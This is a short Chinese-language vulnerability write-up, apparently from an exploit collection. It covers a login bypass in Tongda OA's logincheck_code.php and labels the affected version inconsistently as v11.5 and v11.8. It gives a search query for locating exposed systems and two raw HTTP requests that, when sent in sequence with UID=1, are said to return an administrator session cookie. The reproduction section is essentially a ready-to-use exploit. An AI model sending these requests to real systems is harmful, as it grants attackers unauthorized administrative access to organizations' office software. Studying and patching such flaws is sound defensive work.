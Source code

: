 # 通达OA v11.5 logincheck_code.php 登陆绕过漏洞

## 漏洞描述

通达OA v11.8 logincheck_code.php存在登陆绕过漏洞，通过漏洞攻击者可以登陆系统管理员后台

## 漏洞影响

<a-checkbox checked>通达OA v11.8</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="TDXK-通达OA" </a-checkbox></br>

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1628306796311-4c49ac12-0e18-44ef-a0c2-c6a2d7d0f20a.png)

发送第一个请求包

```php
GET /general/login_code.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Accept-Encoding: gzip
```

![img](../../../.vuepress/public/img/1628306860352-5e9f9343-742d-4697-abe8-7e5c2534722d.png)

再发送第二个恶意请求

```php
POST /logincheck_code.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 56
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

CODEUID=%7BD384F12E-A758-F44F-8A37-20E2568306A7%7D&UID=1
```

![img](../../../.vuepress/public/img/1628306918632-bb9e22e6-79b6-4fe1-8839-729fc9b6abe5.png)

获取cookie后访问管理员页面 **/general/index.php**

![img](../../../.vuepress/public/img/1628307007812-02e45309-32af-4513-a89c-00aa30fb9366.png)